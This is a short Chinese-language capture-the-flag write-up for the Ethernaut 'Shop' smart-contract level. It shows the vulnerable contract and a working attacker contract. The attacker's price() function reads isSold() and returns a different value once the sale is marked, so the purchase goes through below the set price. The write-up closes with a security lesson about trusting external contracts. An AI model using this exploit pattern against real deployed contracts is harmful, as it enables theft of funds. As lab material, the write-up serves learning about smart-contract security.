

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```


跟 elevator一样，只是要考虑isSold的值？？？

哦，对，不然第一次的if进不去。。。lol )))

那就写个interface external一下 isSold，过了if改为0即可：

注意用 0.7.0，0.8的gas管理容易崩。。。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.0;

interface IShop{
    function buy() external ;
    function isSold() external view returns (bool);
}
contract Shop{
    address levelInstance;
    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }
    function price() public view returns (uint256){
        return IShop(msg.sender).isSold() ? 0 : 100;
    }
    function pwn() public {
        IShop(levelInstance).buy();
    }
}
```





> Contracts can manipulate data seen by other contracts in any way they want.
>
> It's unsafe to change the state based on external and untrusted contracts logic.


确实呐，web3的编程安全最大的一个点就是有多合约，外部合约的交互！这是区分传统安全的很大的一个点。。。